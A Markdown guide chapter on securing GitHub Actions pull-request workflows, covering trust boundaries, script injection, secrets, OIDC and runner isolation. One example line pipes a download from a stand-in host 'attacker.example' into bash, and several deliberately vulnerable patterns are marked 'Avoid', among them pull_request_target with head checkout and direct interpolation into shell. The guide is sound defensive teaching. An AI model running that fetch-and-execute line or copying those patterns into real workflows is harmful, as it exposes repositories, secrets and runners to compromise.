

# 08- Pull Request Security

## Overview

Pull requests are one of the most important security boundaries in GitHub Actions.

A pull request workflow can execute code that was introduced or modified by a contributor. In repositories that accept external contributions, that contributor may not be trusted with repository secrets, cloud credentials, private network access, or privileged GitHub permissions.

The core security model is:

```text
Pull Request
    ↓
Potentially Untrusted Code
    ↓
Restricted CI Environment
    ↓
Validation
    ↓
Trusted Branch
    ↓
Privileged Deployment
```

A production-grade CI/CD system should therefore distinguish between:

- Trusted repository configuration.
- Trusted maintainers.
- Untrusted pull-request code.
- GitHub-generated metadata.
- Secrets and credentials.
- Privileged deployment operations.

The most important principle is:

> Never combine untrusted pull-request code with unnecessary privileges.

This applies to `pull_request`, `pull_request_target`, fork repositories, workflow permissions, secrets, third-party actions, self-hosted runners, OIDC, AWS IAM, Docker, and deployment workflows.

## Pull Request Trust Model

A pull request is not inherently trusted simply because it originates inside GitHub.

A contributor may control:

- Application code.
- Tests.
- Build scripts.
- Dependency files.
- Dockerfiles.
- Workflow changes, subject to repository permissions and branch protections.
- Pull request title and body.
- Branch name.
- Commit messages.

A useful trust model is:

```text
                    GitHub Repository
                           │
             ┌─────────────┴─────────────┐
             │                           │
       Trusted Base                 Pull Request
             │                           │
       Protected Code             Contributor Code
             │                           │
             └─────────────┬─────────────┘
                           ↓
                    CI Security Boundary
```

The CI system must prevent the untrusted side from crossing into privileged resources.

## Why Pull Requests Are a Security Boundary

CI jobs execute arbitrary project code by design.

For a Python backend, a test job might execute:

```bash
pip install -r requirements.txt
pytest
python manage.py test
```

Each operation can execute code from the repository or its dependencies.

A malicious pull request could therefore modify:

```text
requirements.txt
pyproject.toml
Dockerfile
pytest configuration
setup scripts
management commands
workflow files
```

and potentially cause code execution inside the runner.

If that runner also has:

```text
Production Secrets
+
AWS Credentials
+
Private Network Access
+
Write Permissions
```

the impact can extend far beyond the pull request itself.

## `pull_request`

The `pull_request` event is the normal starting point for CI validation of pull requests.

Example:

```yaml
name: Pull Request CI

on:
  pull_request:

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-latest

    steps:
      - name: Checkout
        uses: actions/checkout@v4

      - name: Set up Python
        uses: actions/setup-python@v5
        with:
          python-version: "3.12"

      - name: Install dependencies
        run: pip install -r requirements.txt

      - name: Run tests
        run: pytest
```

The important security properties are:

- Pull-request code is treated as untrusted.
- The job has minimal permissions.
- Production secrets are not required.
- Validation occurs in an isolated runner.
- The workflow does not perform production deployment.

## Pull Request From a Fork

A fork pull request should be treated as untrusted code.

For example:

```text
External Contributor
        ↓
Fork Repository
        ↓
Pull Request
        ↓
Base Repository CI
        ↓
Untrusted Code Execution
```

The contributor can potentially control the code being executed.

Therefore the workflow should not provide:

- Production credentials.
- Long-lived cloud credentials.
- Production environment secrets.
- Broad `GITHUB_TOKEN` permissions.
- Access to privileged self-hosted runners.

## Fork Security Model

A typical secure model is:

```text
Fork PR
   ↓
pull_request
   ↓
GitHub-hosted Runner
   ↓
contents: read
   ↓
Unit / Integration Tests
   ↓
Reports
```

The workflow should terminate before the production trust boundary.

## `pull_request` vs `pull_request_target`

These events have different security implications.

| Aspect | `pull_request` | `pull_request_target` |
|---|---|---|
| Primary use | Validate PR code | Operate in base-repository context |
| Code trust | PR code may be untrusted | Workflow executes in base context |
| Secrets | Should generally not be available to fork PRs | Can access base repository secrets depending on configuration |
| Permissions | Usually restricted | Requires careful review |
| Risk | Untrusted code execution | Privileged context combined with unsafe checkout can be dangerous |
| Typical CI use | Testing contributor code | Trusted metadata/automation scenarios |

The key distinction is the security context in which the workflow executes.

## Why `pull_request_target` Requires Caution

A dangerous pattern is:

```yaml
on:
  pull_request_target:

jobs:
  test:
    runs-on: ubuntu-latest

    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}

      - run: pip install -r requirements.txt
      - run: pytest
```

The workflow is operating from the base repository context while explicitly checking out code from the pull request.

That creates a dangerous combination:

```text
Base Repository Privileges
          +
Attacker-Controlled PR Code
          =
Privileged Code Execution
```

This pattern should be avoided.

## What `pull_request_target` Is For

`pull_request_target` can be appropriate when the workflow needs to operate on trusted base-repository context without executing untrusted PR code.

For example, a workflow may need to:

- Apply labels.
- Add comments.
- Perform trusted metadata processing.
- Run controlled automation against pull-request metadata.

The critical requirement is:

> Do not turn the workflow into a privileged execution environment for the pull request itself.

## Never Confuse Metadata With Code

A pull request contains both metadata and code.

Metadata may include:

```text
Title
Body
Author
Labels
Branch
Commit SHA
Repository
```

The code includes:

```text
Python
JavaScript
Shell
Dockerfile
Dependencies
Tests
Workflow changes
```

A workflow may safely process certain metadata while still treating the code as untrusted.

```text
Trusted Workflow
      │
      ├── PR Metadata
      │       ↓
      │    Validate
      │
      └── PR Code
              ↓
          Restricted CI
```

## Pull Request Titles Are Untrusted

Do not directly interpolate pull request titles into shell commands.

Avoid:

```yaml
- name: Validate title
  run: echo "${{ github.event.pull_request.title }}"
```

Prefer:

```yaml
- name: Validate title
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: |
    printf '%s\n' "$PR_TITLE"
```

The same principle applies to:

- Branch names.
- Commit messages.
- Issue content.
- User-controlled workflow inputs.

## Pull Request Bodies

Pull request bodies may contain arbitrary content.

Avoid:

```yaml
- run: process-pr "${{ github.event.pull_request.body }}"
```

Prefer:

```yaml
- name: Process PR body
  env:
    PR_BODY: ${{ github.event.pull_request.body }}
  run: |
    ./scripts/process-pr-body.sh "$PR_BODY"
```

The script should still validate the content.

## Branch Names

Branch names are not automatically trusted.

Avoid:

```yaml
- run: ./deploy.sh ${{ github.head_ref }}
```

Prefer:

```yaml
- name: Process branch
  env:
    BRANCH_NAME: ${{ github.head_ref }}
  run: |
    ./scripts/process-branch.sh "$BRANCH_NAME"
```

If only specific branches are valid, use an allowlist.

```bash
case "$BRANCH_NAME" in
  feature/*|bugfix/*|hotfix/*)
    ;;
  *)
    echo "Unsupported branch" >&2
    exit 1
    ;;
esac
```

## Commit Messages

Commit messages can contain shell metacharacters or arbitrary content.

Avoid:

```yaml
- run: echo "${{ github.event.head_commit.message }}"
```

Prefer:

```yaml
- name: Inspect commit
  env:
    COMMIT_MESSAGE: ${{ github.event.head_commit.message }}
  run: |
    printf '%s\n' "$COMMIT_MESSAGE"
```

## Script Injection

Script injection occurs when untrusted data becomes part of executable shell syntax.

The dangerous flow is:

```text
Untrusted Input
      ↓
Expression Interpolation
      ↓
Generated Shell Script
      ↓
Shell Parser
      ↓
Code Execution
```

The safer flow is:

```text
Untrusted Input
      ↓
Environment Variable
      ↓
Quoted Argument
      ↓
Fixed Command
```

## Environment Variables as a Safer Boundary

Use:

```yaml
- name: Process PR title
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: |
    ./scripts/check-title.sh "$PR_TITLE"
```

The workflow does not construct a new shell program from the title.

However, environment variables do not automatically make the value trustworthy. Application-level validation is still required.

## Shell Quoting

Prefer:

```bash
"$VALUE"
```

over:

```bash
$VALUE
```

For example:

```bash
printf '%s\n' "$BRANCH_NAME"
```

Quoting prevents unexpected word splitting and wildcard expansion.

It does not replace authorization or semantic validation.

## Avoid `eval`

Do not construct commands dynamically and execute them through `eval`.

Avoid:

```bash
COMMAND="deploy $ENVIRONMENT"
eval "$COMMAND"
```

Prefer:

```bash
deploy --environment "$ENVIRONMENT"
```

with validation:

```bash
case "$ENVIRONMENT" in
  staging|production)
    deploy --environment "$ENVIRONMENT"
    ;;
  *)
    echo "Invalid environment" >&2
    exit 1
    ;;
esac
```

## Python Subprocess Security

Backend repositories frequently use Python deployment or automation scripts.

Avoid:

```python
import subprocess

environment = user_input

subprocess.run(
    f"./deploy.sh {environment}",
    shell=True,
    check=True,
)
```

Prefer:

```python
import subprocess

environment = user_input

subprocess.run(
    ["./deploy.sh", environment],
    check=True,
)
```

The argument-list form avoids introducing a shell parsing layer.

## Pull Request Dependency Execution

Dependency installation is part of the trust boundary.

A pull request can modify:

```text
requirements.txt
pyproject.toml
package.json
package-lock.json
Dockerfile
```

A CI workflow that runs:

```bash
pip install -r requirements.txt
pytest
```

is executing code influenced by the pull request.

Therefore:

```text
PR Dependency
      ↓
Untrusted Execution
      ↓
Restricted Runner
```

not:

```text
PR Dependency
      ↓
Production Environment
```

## Django Pull Request CI

A Django workflow might use:

```yaml
jobs:
  test:
    runs-on: ubuntu-latest

    permissions:
      contents: read

    steps:
      - name: Checkout
        uses: actions/checkout@v4

      - name: Set up Python
        uses: actions/setup-python@v5
        with:
          python-version: "3.12"

      - name: Install dependencies
        run: pip install -r requirements.txt

      - name: Run migrations
        run: python manage.py migrate

      - name: Run tests
        run: pytest
```

The database should be an isolated CI database rather than production PostgreSQL.

## FastAPI Pull Request CI

A FastAPI repository can use:

```yaml
- name: Install dependencies
  run: pip install -r requirements.txt

- name: Run tests
  run: pytest

- name: Start application
  run: |
    uvicorn app.main:app \
      --host 127.0.0.1 \
      --port 8000
```

The workflow should not require production service credentials merely to validate the application.

## PostgreSQL and Redis

Integration tests should use isolated service containers:

```text
Pull Request
     ↓
GitHub-hosted Runner
     ├── Python Application
     ├── PostgreSQL
     └── Redis
```

This avoids connecting untrusted PR code to:

- Production PostgreSQL.
- Production Redis.
- Production Kafka.
- Production Celery brokers.

## Kafka

If integration tests require Kafka, use a dedicated test environment or ephemeral test infrastructure.

Do not allow pull-request code to publish arbitrary messages to production Kafka.

A compromised test could otherwise affect:

- Consumer workloads.
- Production databases.
- Event-driven workflows.
- External integrations.

## Celery

For Celery-based applications, use an isolated broker and worker environment.

```text
PR
 ↓
Test Application
 ↓
Test Redis
 ↓
Celery Worker
```

Do not provide production broker credentials to pull-request validation.

## Secrets in Pull Request Workflows

The strongest rule is:

> A pull-request test job should not need production secrets.

Typical PR jobs should use:

```text
contents: read
```

and isolated infrastructure.

Avoid exposing:

```text
AWS_ACCESS_KEY_ID
AWS_SECRET_ACCESS_KEY
DATABASE_PASSWORD
REDIS_PASSWORD
PRODUCTION_API_KEY
```

to untrusted code.

## GITHUB_TOKEN Permissions

Use least privilege.

For ordinary PR validation:

```yaml
permissions:
  contents: read
```

Avoid broad repository permissions.

If a job does not need to write issues, pull requests, packages, deployments, or workflows, it should not receive those permissions.

## Job-Level Permissions

Keep privileges scoped to the smallest possible job.

```yaml
permissions:
  contents: read

jobs:
  test:
    permissions:
      contents: read

  report:
    permissions:
      contents: read
      pull-requests: write
```

The reporting job should not automatically grant write permissions to the test job.

## OIDC and Pull Requests

OIDC can eliminate long-lived AWS credentials, but OIDC is still a privilege.

For example:

```yaml
permissions:
  contents: read
  id-token: write
```

allows the workflow to request an OIDC identity token.

That should not be available to arbitrary pull-request execution when the token can be exchanged for a privileged AWS IAM role.

A secure model is:

```text
Pull Request
    ↓
Restricted Tests
    ↓
No OIDC

Main Branch
    ↓
Protected Deployment
    ↓
OIDC
    ↓
Restricted IAM Role
```

## AWS IAM Trust Policy

The GitHub workflow and AWS IAM configuration must agree on the trust boundary.

A production role should not broadly trust arbitrary repository contexts.

The trust relationship should constrain relevant claims such as:

- Repository.
- Organization.
- Branch or deployment context.
- Intended workflow identity.

The exact policy should match the organization's deployment architecture.

## AWS Blast Radius

Even if a workflow is compromised, the IAM role should not have unrestricted access.

Avoid granting:

```text
AdministratorAccess
```

to a general deployment role.

Prefer narrowly scoped permissions such as only the required:

```text
ECS
ECR
S3
CloudFormation
Lambda
```

operations.

## Production Environment

Production deployment should occur through a protected environment.

Example:

```yaml
jobs:
  deploy:
    environment:
      name: production
```

The environment can enforce additional controls such as:

- Required reviewers.
- Deployment restrictions.
- Environment secrets.
- Deployment history.

The PR validation job should not automatically gain these privileges.

## Build Once, Promote Later

A secure deployment architecture separates build and deployment:

```text
Pull Request
    ↓
Validation
    ↓
Main Branch
    ↓
Build
    ↓
Immutable Docker Image
    ↓
ECR
    ↓
Staging
    ↓
Approval
    ↓
Production
```

Do not rebuild arbitrary source code directly during production deployment.

## Docker and Pull Requests

Dockerfiles are executable build definitions.

A pull request can modify:

```dockerfile
RUN ...
```

Therefore Docker builds should be treated as code execution.

For PR validation:

- Use isolated runners.
- Do not expose production credentials.
- Avoid mounting sensitive host directories.
- Avoid exposing privileged Docker sockets unnecessarily.
- Do not use production deployment credentials during image validation.

## Docker Build Secrets

Do not pass production credentials as ordinary build arguments.

Avoid:

```dockerfile
ARG AWS_SECRET_ACCESS_KEY
```

Production credentials should not become part of the image build context or image metadata.

## Self-Hosted Runners

Self-hosted runners increase the risk of pull-request execution because they may have access to:

- Persistent files.
- Docker.
- Private networks.
- Cloud credentials.
- Internal services.
- Other build state.

A privileged self-hosted runner should not execute arbitrary fork PR code.

## Persistent Runner Risk

A persistent runner can retain:

```text
Source Code
Build Files
Credentials
Docker Layers
Temporary Files
Caches
Compromised State
```

A malicious PR may attempt to persist beyond its workflow.

## Ephemeral Runners

Ephemeral runners reduce persistent state:

```text
Provision
   ↓
Execute One Workload
   ↓
Collect Results
   ↓
Destroy
```

This is particularly useful for privileged environments.

## Runner Segmentation

Separate runner trust zones:

```text
Untrusted PR CI
    ↓
GitHub-hosted Runner

Trusted Deployment
    ↓
Privileged Runner
    ↓
Private Network
```

Runner groups and labels can help enforce organizational separation.

## Third-Party Actions

Every action is executable code.

A pull-request job should use only trusted actions and minimal permissions.

Review:

- Action source.
- Maintainer.
- Version.
- Release history.
- Dependencies.
- Permissions.
- Network access.
- Secret access.

For security-sensitive workflows, pinning to an immutable commit SHA provides stronger supply-chain protection than mutable tags.

## Action Pinning

Example:

```yaml
- uses: actions/checkout@<commit-sha>
```

An organization may establish a policy requiring approved actions or SHA pinning for privileged workflows.

The goal is to prevent an action reference from silently changing to malicious code.

## Workflow File Changes

Pull requests may attempt to modify workflow files.

Examples include:

```yaml
permissions:
  contents: write
```

or:

```yaml
- run: env
```

or:

```yaml
- run: curl attacker.example | bash
```

Repository governance should protect critical workflows through:

- Branch protection.
- CODEOWNERS.
- Required reviews.
- Restricted write access.
- Action policies.
- Environment protection.

## CODEOWNERS

Critical files can require review from designated maintainers.

Examples:

```text
.github/workflows/
.github/actions/
Dockerfile
infra/
terraform/
```

The exact governance model depends on repository structure.

## Workflow Approval

Organizations may require approval before certain workflows execute, particularly for workflows originating from external contributors.

The objective is to prevent automatic execution of potentially dangerous changes in sensitive contexts.

## Pull Request Labels

Labels should not be treated as authorization by themselves.

For example:

```text
approved
```

is metadata, not necessarily a security credential.

If automation changes privileged behavior based on labels, ensure that only trusted actors can create or modify the relevant labels.

## Manual Approval

Production deployment should normally occur after trusted checks and appropriate approval.

A secure flow is:

```text
Pull Request
    ↓
CI
    ↓
Merge
    ↓
Build
    ↓
Artifact
    ↓
Staging
    ↓
Validation
    ↓
Production Approval
    ↓
Production
```

Approval should not be implemented by trusting arbitrary pull-request input.

## Artifact Integrity

Artifacts produced by PR workflows should be treated according to their trust level.

A production deployment should prefer:

```text
Trusted Main Branch Build
        ↓
Immutable Artifact
        ↓
Artifact Registry
        ↓
Production
```

rather than:

```text
Untrusted PR Artifact
        ↓
Production
```

## Artifact Attestations and Provenance

Production systems may use:

- Artifact provenance.
- Attestations.
- Signing.
- SBOMs.
- Registry controls.

These controls help establish:

```text
Where did this artifact come from?
```

and:

```text
Was it produced by the expected build process?
```

## Caches

Caches can contain executable dependencies and build outputs.

Do not store secrets in caches.

Avoid designs where an untrusted PR can poison a cache that will later be trusted by a privileged workflow.

Use cache keys and trust boundaries carefully.

## Dynamic Matrices

A dynamic matrix can be useful:

```yaml
strategy:
  matrix: ${{ fromJSON(needs.plan.outputs.matrix) }}
```

but generated values should not be allowed to arbitrarily control privileged jobs.

For example:

```text
PR Input
   ↓
Planning
   ↓
Validation
   ↓
Allowed Matrix
   ↓
Test Jobs
```

is safer than allowing arbitrary values to determine:

```text
Production Region
Production Account
Deployment Target
```

## Workflow Outputs

Outputs are data channels, not authorization mechanisms.

A job may produce:

```bash
echo "environment=staging" >> "$GITHUB_OUTPUT"
```

A later job must still validate or constrain the value if it controls a sensitive operation.

Do not assume:

```text
needs.plan.outputs.environment
```

is trustworthy simply because it originated inside GitHub Actions.

## Untrusted Input and Artifacts

A useful trust classification is:

| Source | Default Trust |
|---|---|
| Repository configuration | Trusted only if protected |
| Maintainer-controlled workflow | Trusted subject to review |
| Pull request code | Untrusted |
| Fork code | Untrusted |
| PR title/body | Untrusted |
| Branch name | Untrusted |
| Commit message | Untrusted |
| External API response | Untrusted |
| Generated matrix | Depends on source |
| Immutable production artifact | Trusted after verification |

Trust should be established by the architecture rather than assumed.

## Security Architecture



The critical property is that the PR execution path does not directly reach the production trust boundary.

## Failure Domains

Pull-request security should be designed around separate failure domains.

```text
Failure Domain 1
PR Code
    ↓
Restricted Runner

Failure Domain 2
Trusted Build
    ↓
Artifact

Failure Domain 3
Deployment
    ↓
Protected Environment

Failure Domain 4
Cloud
    ↓
Restricted IAM
```

A compromise in one domain should not automatically compromise every other domain.

## Production Pipeline

A mature backend pipeline can use:

```text
Pull Request
      ↓
Lint
      ↓
Unit Tests
      ↓
Integration Tests
      ↓
Security Scan
      ↓
Matrix Tests
      ↓
Merge
      ↓
Build
      ↓
Docker Image
      ↓
ECR
      ↓
Staging
      ↓
Approval
      ↓
Production
      ↓
Monitoring
      ↓
Rollback
```

The pull-request stage should remain separated from the privileged deployment stage.

## Concurrency

Production deployments should prevent race conditions.

Example:

```yaml
concurrency:
  group: production-deployment
  cancel-in-progress: false
```

This prevents multiple production deployment jobs from changing the environment simultaneously.

Pull-request workflows can use different concurrency behavior:

```yaml
concurrency:
  group: pr-${{ github.event.pull_request.number }}
  cancel-in-progress: true
```

This can cancel obsolete validation runs while retaining the latest PR state.

## Monitoring Pull Request Security

Monitor:

- Workflow modifications.
- Permission changes.
- New actions.
- Changes to deployment workflows.
- Unexpected OIDC usage.
- Unexpected AWS role assumptions.
- Production deployment attempts.
- Runner anomalies.
- Unexpected network access.
- Credential usage.

For AWS, CloudTrail can help identify activity performed using deployment IAM roles.

## Troubleshooting

Use the general diagnostic model:

```text
Symptom
  ↓
Possible Causes
  ↓
Isolation Strategy
  ↓
Commands / Checks
  ↓
Root Cause
  ↓
Corrective Action
  ↓
Prevention
```

### PR Workflow Does Not Run

**Possible causes**

- Incorrect event configuration.
- Branch filter.
- Path filter.
- Workflow syntax error.
- Repository Actions restrictions.

**Checks**

```bash
gh run list
```

Inspect the workflow and event configuration.

### PR Workflow Suddenly Has More Permissions

**Possible causes**

- Changed `permissions`.
- Organization policy change.
- Workflow modification.
- Job-level permission change.

Inspect:

```yaml
permissions:
```

at both workflow and job levels.

### PR Can Access Production Secrets

**Possible causes**

- Secrets exposed to an inappropriate job.
- Production environment attached to PR job.
- `pull_request_target` misuse.
- Privileged reusable workflow.
- Self-hosted runner contains persistent credentials.

**Corrective action**

Remove unnecessary secrets and isolate the privileged deployment job.

### AWS Role Is Assumed During PR Validation

**Possible causes**

- `id-token: write` granted to PR jobs.
- IAM trust policy too broad.
- Deployment logic executes during PR events.
- Privileged reusable workflow called from PR context.

**Checks**

Review:

```text
Workflow Event
↓
permissions
↓
Reusable Workflow
↓
Environment
↓
OIDC
↓
IAM Trust Policy
```

### PR Code Executes on Self-Hosted Runner

**Possible causes**

- Runner labels allow untrusted workflows.
- Runner group permissions are too broad.
- Workflow explicitly targets privileged runner.

**Corrective action**

Separate untrusted CI from privileged runners.

### Third-Party Action Behaves Unexpectedly

**Possible causes**

- Mutable action tag.
- Compromised release.
- Unexpected dependency.
- Excessive token permissions.

**Corrective action**

- Pin the action.
- Review source and release.
- Reduce permissions.
- Remove unnecessary secrets.
- Rotate credentials if exposure is suspected.

### Shell Injection Occurs

**Possible causes**

- Direct expression interpolation.
- Missing shell quoting.
- `eval`.
- `sh -c`.
- `shell=True`.

**Corrective action**

Use:

```yaml
env:
  INPUT: ${{ github.event.pull_request.title }}
```

then:

```bash
./script.sh "$INPUT"
```

and validate the value.

## GitHub CLI Operations

List recent workflow runs:

```bash
gh run list
```

Inspect a specific run:

```bash
gh run view RUN_ID
```

View workflow logs:

```bash
gh run view RUN_ID --log
```

List workflows:

```bash
gh workflow list
```

Run a trusted workflow manually:

```bash
gh workflow run WORKFLOW.yml
```

List repository secrets without exposing their values:

```bash
gh secret list
```

Inspect Actions permissions:

```bash
gh api repos/{owner}/{repo}/actions/permissions
```

Inspect environments:

```bash
gh api repos/{owner}/{repo}/environments
```

Inspect workflow permissions configuration:

```bash
gh api repos/{owner}/{repo}/actions/permissions/workflow
```

These commands support operational investigation without printing secret values.

## Incident Response

If a pull-request workflow may have crossed a trust boundary:

1. Stop affected deployments.
2. Identify the workflow run.
3. Identify the PR and commit.
4. Determine whether the PR came from a fork.
5. Inspect the workflow revision.
6. Determine `GITHUB_TOKEN` permissions.
7. Determine whether secrets were accessible.
8. Determine whether OIDC was available.
9. Identify any AWS IAM role assumed.
10. Review cloud audit logs.
11. Rotate potentially exposed credentials.
12. Review runner state.
13. Review artifacts and caches.
14. Remove the vulnerable workflow behavior.
15. Re-run validation using trusted code.
16. Restore deployment capability using a known-good artifact.

## Reliability and Recovery

Security controls should support recovery rather than create an operational dead end.

A production CI/CD platform should preserve:

```text
Source
+
Workflow Definitions
+
Immutable Artifacts
+
Deployment Configuration
+
Audit Logs
+
Rollback Mechanism
```

If a runner is compromised, it should be replaceable.

If credentials are exposed, they should be revocable.

If a deployment fails, a known-good artifact should remain available.

## High Availability

GitHub Actions workflows should not depend on a single persistent runner.

Prefer:

```text
Workflow
   ↓
Replaceable Runner
   ↓
Artifact
   ↓
Deployment
```

rather than:

```text
Workflow
   ↓
One Permanent Runner
   ↓
Everything
```

For private-network deployment workloads, ephemeral runner infrastructure can reduce persistent compromise risk.

## Disaster Recovery

A secure recovery strategy should allow the organization to:

- Rebuild trusted workflows.
- Recreate runners.
- Rotate credentials.
- Reassume cloud roles.
- Retrieve known-good artifacts.
- Roll back production.
- Audit previous workflow executions.

Recovery procedures should not require temporarily granting excessive permissions.

## Cost and Performance

Security does not require every job to be serialized.

Use parallelism for:

```text
Python Versions
Databases
Operating Systems
Test Suites
```

while maintaining strict boundaries around:

```text
Production Deployment
```

For example:

```text
PR
 ├── Python 3.11
 ├── Python 3.12
 ├── PostgreSQL
 └── MySQL
       ↓
    Fan-in
       ↓
     Merge
```

Production deployment can remain a protected sequential operation.

## Common Mistakes

### Giving PR Jobs Production Secrets

**Why it happens:** The same workflow is reused for both CI and deployment.

**Better design:** Separate restricted CI from privileged deployment.

### Using `pull_request_target` for Normal Testing

**Why it happens:** Developers want access to repository secrets.

**Problem:** Privileged workflow execution can become dangerous when combined with untrusted checkout.

**Better design:** Keep ordinary PR testing on `pull_request`.

### Checking Out PR Code in a Privileged Workflow

**Why it happens:** The workflow needs to test the contributor's exact commit.

**Problem:** The workflow becomes a privileged execution environment for attacker-controlled code.

### Running Fork PRs on Persistent Self-Hosted Runners

**Why it happens:** Private dependencies or network access are required.

**Problem:** The runner may expose persistent credentials and internal resources.

**Better design:** Use isolated or ephemeral infrastructure with strict runner groups.

### Directly Interpolating PR Metadata

Avoid:

```yaml
run: echo "${{ github.event.pull_request.title }}"
```

Prefer environment variables and quoted arguments.

### Assuming Labels Are Authorization

A label such as:

```text
approved
```

is not automatically a secure authorization mechanism.

### Granting `id-token: write` Globally

OIDC should be available only to the trusted job that requires cloud authentication.

### Granting `contents: write` to Test Jobs

Tests generally need:

```yaml
permissions:
  contents: read
```

not repository write access.

### Treating Dependencies as Trusted

Pull-request dependency changes can execute code.

### Rebuilding for Production

Rebuilding after staging can produce an artifact different from the tested artifact.

Prefer immutable artifact promotion.

## Senior-Level Design Principles

### Separate Trust Zones

Design explicit boundaries:

```text
Untrusted PR
     ↓
Restricted CI
     ↓
Trusted Main
     ↓
Trusted Build
     ↓
Protected Deployment
     ↓
Production
```

### Minimize Privilege

A test job should not have:

```text
Production AWS Role
Production Database
Production Secrets
Private Network
```

unless each capability is genuinely required.

### Build Once

Produce an immutable artifact and promote it through environments.

### Protect Workflow Definitions

Workflow files themselves are security-sensitive code.

Use appropriate repository governance and review controls.

### Treat Every Execution Surface as Code Execution

These may execute code:

- Python dependencies.
- npm dependencies.
- Dockerfiles.
- Shell scripts.
- Tests.
- Build systems.
- Custom actions.
- Third-party actions.

Therefore a PR is fundamentally an untrusted execution request.

### Defense in Depth

A strong architecture combines:

```text
Restricted Event
+
Least Privilege
+
Secret Isolation
+
Runner Isolation
+
Action Trust
+
Environment Protection
+
OIDC Restrictions
+
IAM Least Privilege
+
Artifact Integrity
+
Monitoring
```

No single control should carry the entire security model.

## Production Checklist

### Pull Request Boundary

- [ ] PR code is treated as untrusted.
- [ ] Fork PRs are treated as untrusted.
- [ ] PR metadata is treated as untrusted input.
- [ ] PR workflows do not receive production secrets.
- [ ] PR workflows use minimal `GITHUB_TOKEN` permissions.
- [ ] PR validation runs on appropriately isolated infrastructure.

### Event Security

- [ ] `pull_request` is used for ordinary PR validation.
- [ ] `pull_request_target` is used only for carefully designed trusted operations.
- [ ] Privileged workflows do not execute PR checkout code.
- [ ] Event and branch filters are reviewed.
- [ ] Workflow changes are protected.

### Script Injection

- [ ] PR titles are not directly interpolated into shell commands.
- [ ] Branch names are not directly interpolated into shell commands.
- [ ] Commit messages are not directly interpolated into shell commands.
- [ ] PR bodies are handled as data.
- [ ] Environment variables are used for untrusted values.
- [ ] Shell arguments are quoted.
- [ ] `eval` is avoided.
- [ ] Unnecessary `sh -c` and `bash -c` usage is avoided.
- [ ] Python avoids unnecessary `shell=True`.
- [ ] Privileged choices use allowlists.

### Secrets and Cloud Identity

- [ ] Production secrets are isolated from PR jobs.
- [ ] OIDC is restricted to trusted deployment jobs.
- [ ] AWS IAM trust is narrowly scoped.
- [ ] AWS permissions follow least privilege.
- [ ] Long-lived cloud credentials are avoided.
- [ ] Credential rotation procedures exist.

### Runners

- [ ] Fork PRs do not run on privileged persistent runners.
- [ ] Runner groups separate trust zones.
- [ ] Private network access is restricted.
- [ ] Ephemeral runners are considered for privileged workloads.
- [ ] Runner state is not treated as trusted after untrusted execution.

### Supply Chain

- [ ] Third-party actions are reviewed.
- [ ] Security-sensitive actions use an appropriate pinning strategy.
- [ ] Dependencies are reviewed.
- [ ] Dependency scanning is enabled where appropriate.
- [ ] SBOM and artifact provenance are considered for production artifacts.
- [ ] Build artifacts can be traced to trusted source and workflow execution.

### Deployment

- [ ] Production uses a protected environment.
- [ ] Approval controls are configured where required.
- [ ] Production deployment concurrency is configured.
- [ ] Immutable artifacts are promoted between environments.
- [ ] Rollback uses a known-good artifact.
- [ ] Deployment workflows are protected.

### Operations

- [ ] Workflow logs are available for investigation.
- [ ] Cloud audit logs are available.
- [ ] Unexpected role assumptions can be detected.
- [ ] Credentials can be revoked quickly.
- [ ] Runners can be replaced.
- [ ] Incident response procedures are documented.
- [ ] Recovery and rollback procedures are tested.

## Interview Scenarios

### Design Secure PR CI for a Django Application

Requirements:

- Python 3.11 and 3.12.
- PostgreSQL.
- Redis.
- pytest.
- Coverage.
- Fork PR support.

Discuss:

```text
PR
 ↓
Restricted Runner
 ↓
PostgreSQL + Redis
 ↓
pytest
 ↓
Coverage
```

Explain why production infrastructure and credentials are excluded.

### Secure a Production Deployment

Requirements:

- Docker.
- ECR.
- ECS.
- AWS authentication.
- Production approval.
- Rollback.

Design:

```text
Main
 ↓
Build
 ↓
Immutable Image
 ↓
ECR
 ↓
Staging
 ↓
Approval
 ↓
OIDC
 ↓
Restricted IAM
 ↓
ECS
```

Explain why the PR workflow does not receive OIDC access.

### Review a `pull_request_target` Workflow

Given:

```yaml
on:
  pull_request_target:

jobs:
  test:
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}

      - run: pytest
```

Identify the trust-boundary problem and redesign the workflow.

### Prevent Script Injection

Given:

```yaml
- run: |
    echo "PR: ${{ github.event.pull_request.title }}"
```

Explain:

- Expression evaluation.
- Shell parsing.
- Injection risk.
- Environment-variable mitigation.
- Quoting.
- Validation.

### Secure a Self-Hosted Runner

Requirements:

- Private network access.
- Internal API access.
- Production deployment.

Explain:

- Why PR code cannot use the runner.
- How runner groups help.
- Why ephemeral runners reduce risk.
- How IAM and network segmentation reduce blast radius.

### Compromised Third-Party Action

A deployment action is suspected of compromise.

Explain how you would determine:

- Which workflows used it.
- Which permissions it had.
- Which secrets were available.
- Whether OIDC was enabled.
- Which cloud roles it could assume.
- Whether credentials need rotation.
- Which artifacts and deployments require investigation.

## Key Takeaways

- Pull requests, especially fork pull requests, must be treated as potentially untrusted code execution environments.
- `pull_request_target` requires particular caution because privileged base-repository context must never be combined with unsafe execution of attacker-controlled PR code.
- Separate untrusted CI from privileged deployment by using least-privilege permissions, isolated runners, protected environments, secret isolation, and restricted OIDC/IAM access.
- Prevent script injection by keeping untrusted values as data: use environment variables, quoted arguments, structured parsing, allowlists, and fixed command structures instead of dynamic shell execution.
- Production security depends on defense in depth: trusted workflow definitions, controlled actions, immutable artifacts, deployment approvals, runner isolation, cloud least privilege, monitoring, and tested rollback procedures.